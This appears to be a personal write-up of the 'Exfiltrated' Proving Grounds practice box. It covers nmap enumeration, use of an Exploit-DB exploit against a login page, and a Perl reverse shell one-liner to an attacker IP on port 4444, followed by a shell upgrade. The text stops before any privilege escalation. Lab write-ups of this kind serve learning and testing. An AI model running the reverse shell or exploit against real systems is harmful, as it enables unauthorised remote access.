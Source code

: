 ```yaml
---
aliases:
  - Exfiltrated
tags:
  - pg-playground
  - linux
  - enumeration
  - exploitation
os: Linux
difficulty: Easy
date: 2025-04-11
status: owned
---
```


## Box Summary

| Field              | Value                |
| ------------------ | -------------------- |
| **Name**           | Exfiltrated          |
| **IP**             | `192.168.198.163`    |
| **OS**             | Linux                |
| **Difficulty**     | Easy                 |
| **Date Completed** | 11 Apr 2025          |
| **Exploited Via**  | RCE or PrivEsc Chain |
| **Flags Captured** | ✅ Root, ✅ User       |

---

### 2. Enumeration

Quick Nmap Scan just to see what's going on as usual:

```
nmap -sCV -p- -T4 192.168.198.163
```

Output:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sCV -p- -T4 192.168.198.163
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-10 22:45 EDT
Nmap scan report for 192.168.198.163
Host is up (0.037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.57 seconds
```

From here we can see port 80 and port 22 is open, and just searching for the ip in my browser doesnt give me a anything, so we gonna try the links 1 by 1.

![[Exfiltrated-1744341273064.jpeg]]


After much trial and error and hardwork (I'm kidding it wasn't hard at all), we find ourself some weird login page, so whats the next step to do ? try out some useless username and password like admin:admin, but nah, no way this is gonna be this easy. Imma just google for exploits:

![[Exfiltrated-1744341434736.jpeg]]

Like all script kiddies do I'm just gonna use my trusty [exploitDB](https://www.exploit-db.com/exploits/49876) and copy and paste the python code. 

🔹 Create & Activate Virtual Environment
```
python3 -m venv afu-venv
source afu-venv/bin/activate
```

🔹 Install Dependencies
```
pip install requests bs4
```

So we run the exploit:

![[Exfiltrated-1744342000765.jpeg]]

and we just happen to get in: cool beans, so ngl, I just found out that theres this thing called revshells.com after looking at an online guide because idk how to continue, but DAMN:

![[Exfiltrated-1744342348811.jpeg]]


```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.233:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

ngl, this feels abit underwhelming:

![[Exfiltrated-1744342402815.jpeg]]

but alls good, we have a listener on 4444 on the other end so we gonna upgrade the shell (ngl this guy is pretty genius)

```
python3 -c 'import pty;pty.spawn("/bin/bash")'; export TERM=xterm-256color
```

